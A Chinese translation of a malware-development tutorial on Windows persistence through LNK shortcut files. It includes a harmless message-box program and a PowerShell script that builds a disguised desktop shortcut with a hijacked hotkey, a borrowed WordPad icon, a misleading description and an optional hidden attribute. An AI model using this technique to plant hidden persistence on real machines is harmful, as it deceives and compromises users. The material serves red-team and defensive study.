







\newpage
\subsection{恶意软件开发：持久化（第 23 部分）——LNK 文件（简单的 PowerShell 示例）}

﷽

{width="80%"}

这篇文章基于我自己对一个比较有趣的恶意软件持久化技巧的研究：通过 Windows LNK 文件实现持久化。

### LNK

按照微软的说法，LNK 文件在 Windows 中充当快捷方式或「链接」，它提供对原始文件、文件夹或应用程序的引用。对普通用户来说，这些文件有实际用途，便于整理文件、保持工作区整洁。然而，从攻击者的角度来看，LNK 文件的意义就完全不同了。它们已经在多个有记录的 APT 组织攻击中被利用，而且据我所知，它们至今仍是钓鱼、建立持久化、执行载荷等活动的一个可行选项。

你知道 Windows 快捷方式可以注册一个快捷键来触发执行吗？这正是本例中恶意软件持久化的核心技巧。

### 实战示例

假设我们有一个「恶意软件」。和往常一样，它是一个 meow-meow 消息框应用程序 `hack.c`：

```cpp
/*
hack.c
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/12/10/malware-pers-23.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;

```

然后，只需创建一个 PowerShell 脚本，用来生成具有以下属性的 LNK 文件：

```powershell
# Define the path for the shortcut on the desktop
$shortcutPath = "$([Environment]::GetFolderPath('Desktop'))\Meow.lnk"

# Create a WScript Shell object
$wshell = New-Object -ComObject Wscript.Shell

# Create a shortcut object
$shortcut = $wshell.CreateShortcut($shortcutPath)

# Set the icon location for the shortcut
$shortcut.IconLocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"

# Set the target path and arguments for the shortcut
$shortcut.TargetPath = "Z:\2023-12-10-malware-pers-23\hack.exe"
$shortcut.Arguments = ""

# Set the working directory for the shortcut
$shortcut.WorkingDirectory = "Z:\2023-12-10-malware-pers-23"

# Set a hotkey for the shortcut (e.g., CTRL+W)
$shortcut.HotKey = "CTRL+W"

# Set a description for the shortcut
$shortcut.Description = "Not malicious, meow-meow malware"

# Set the window style for the shortcut (7 = Minimized window)
$shortcut.WindowStyle = 7

# Save the shortcut
$shortcut.Save()

# Optionally make the link invisible by adding 'Hidden' attribute
# (Get-Item $shortcutPath).Attributes += 'Hidden'
```

如你所见，逻辑非常简单。我们只是在桌面上创建一个快捷方式，并给它指定了一个快捷键：`CTRL+W`。当然，在真实的攻击场景中，它也可以是 `CTRL+C`、`CTRL+V` 或 `CTRL+P` 之类。

例如，如果你为「画图」（Paint）创建一个快捷方式，它并没有指定任何快捷键：

{width="80%"}

资源管理器（Explorer）只支持以 `CTRL+ALT` 开头的快捷键组合，其他组合必须通过 COM 以编程方式设置。

### 演示

我们来看看实际效果。首先，编译我们的「恶意软件」：

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

为了验证正确性，运行它：

```powershell
.\hack.exe
```

{width="80%"}

然后运行我们的持久化 PowerShell 脚本：

```powershell
Get-Content pers.ps1 | PowerShell.exe -noprofile -
```

{width="80%"}

结果，Meow LNK 文件被成功创建。

如果我们查看它的属性，一切正常：

{width="80%"}

最后，只需运行它并尝试触发 `CTRL+W` 快捷键：

{width="80%"}

{width="80%"}

如你所见，一切都完全按预期工作！=..= :)

在野外的 APT 组织（如 APT28、APT29、Kimsuky）以及 Emotet 之类的软件中，都使用了这种技术。说实话，由于它在欺骗受害者方面极其方便，这种方法被广泛使用、流传甚广。

我希望这篇文章能让蓝队成员了解这个有趣的技巧，并为红队成员的武器库增添一件武器。

非常感谢我的朋友兼同事 Anton Kuznetsov，他在做一场非常精彩的演讲时让我想起了这个技巧。

[ATT&CK MITRE: T1204.001](https://attack.mitre.org/techniques/T1204/001/)  
[APT28](https://attack.mitre.org/groups/G0007/)  
[APT29](https://attack.mitre.org/groups/G0016/)  
[Kimsuky](https://attack.mitre.org/groups/G0094/)  
[Emotet](https://attack.mitre.org/software/S0367/)  
[MSDN: Shell Link (.LNK) Binary File Format](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943)  
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)  
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-12-10-malware-pers-23)
